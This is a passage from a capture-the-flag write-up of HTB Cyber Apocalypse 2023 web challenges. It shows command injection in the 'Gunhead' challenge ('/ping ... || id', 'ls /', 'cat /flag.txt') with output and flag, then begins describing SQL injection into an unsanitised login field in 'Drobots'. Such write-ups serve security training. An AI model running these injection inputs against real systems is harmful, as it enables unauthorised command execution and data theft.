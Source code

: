 ![Gunhhead_shell_exec.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Web%20images/Gunhhead_shell_exec.png)
- During accessing the shell, it needs to assign the current commands to start with a slash `/`. 

![Gunhead_help.png]([Gunhead](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Web%20images/Gunhead.png "Gunhead.png"))
- By injecting with your commands, you will reach the flag like the following commands.
```
> /ping -c 3 127.0.0.1 || id
PING 127.0.0.1 (127.0.0.1): 56 data bytes  
uid=1000(www) gid=1000(www) groups=1000(www)

> /ping -c 3 127.0.0.1 || ls /
PING 127.0.0.1 (127.0.0.1): 56 data bytes  
bin dev etc flag.txt home lib media mnt opt proc root run sbin srv sys tmp usr var www

> /ping -c 3 127.0.0.1 || cat /flag.txt
PING 127.0.0.1 (127.0.0.1): 56 data bytes  
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}  
```

----
## Drobots - very easy
- When access the web challenge, You will find a login page.

![drobots_login.png]([drobots](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Web%20images/drobots_bypass.png "drobots_bypass.png"))
- And with some source code reviewing, you will find the `database.py` file contains a `login()` function to authenticate with the user credentials, but it doesn't sanitize the inputs from the user.

![drobots_database.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Web%20images/drobots_database.png)
- So we can try to inject the username field.
